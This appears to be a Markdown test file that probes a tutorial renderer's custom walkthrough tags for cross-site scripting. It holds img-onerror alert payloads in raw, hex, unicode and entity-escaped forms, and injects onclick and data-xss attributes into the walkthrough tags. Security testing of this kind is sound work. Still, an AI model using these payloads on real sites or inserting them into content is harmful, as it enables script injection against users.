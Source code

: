 #Header1 <img src=x1 onerror=alert(1)>
##Header2 \x3cimg src=x2 onerror=alert(2)\x3e
##Header3 \u003cimg src=x3 onerror=alert(3)\u003e
##Header3 &lt;img src=x3 onerror=alert(3)&gt;

a
<img src=x1 onerror=alert(1)>
b
\x3cimg src=x2 onerror=alert(2)\x3e
c
\u003cimg src=x3 onerror=alert(3)\u003e
d
&lt;img src=x3 onerror=alert(3)&gt;
e
<walkthrough-editor-spotlight spotlightId="menu-terminal-new-terminal">New Terminal</walkthrough-editor-spotlight>
f
<walkthrough-editor-spotlight xss=123 onclick=alert() spotlightId="menu-terminal-new-terminal">New Terminal 2</walkthrough-editor-spotlight>
g
<walkthrough-ICON_NAME data-xss></walkthrough-ICON_NAME>
<walkthrough-cloud-shell-icon data-xss>aasd</walkthrough-cloud-shell-icon>
<walkthrough-web-preview-icon data-xss>asd</walkthrough-web-preview-icon>
<walkthrough-cloud-shell-editor-icon data-xss></walkthrough-cloud-shell-editor-icon>
<walkthrough-nav-menu-icon data-xss></walkthrough-nav-menu-icon>
<walkthrough-notification-menu-icon data-xss></walkthrough-notification-menu-icon>
<walkthrough-pin-section-icon data-xss></walkthrough-pin-section-icon>
h
<walkthrough-tutorial-duration duration="DURATION"></walkthrough-tutorial-duration>
h1
<walkthrough-tutorial-duration duration="XSSDURATION"></walkthrough-tutorial-duration>
h2
<walkthrough-tutorial-duration duration="XSSDURATION<xss>"></walkthrough-tutorial-duration>
h3
```<img src=x1 onerror=alert(1)>
\x3cimg src=x2 onerror=alert(2)\x3e
\u003cimg src=x3 onerror=alert(3)\u003e
&lt;img src=x3 onerror=alert(3)&gt;
<walkthrough-editor-spotlight spotlightId="menu-terminal-new-terminal">New Terminal</walkthrough-editor-spotlight>
<walkthrough-editor-spotlight xss=123 onclick=alert() spotlightId="menu-terminal-new-terminal">New Terminal 2</walkthrough-editor-spotlight>
```
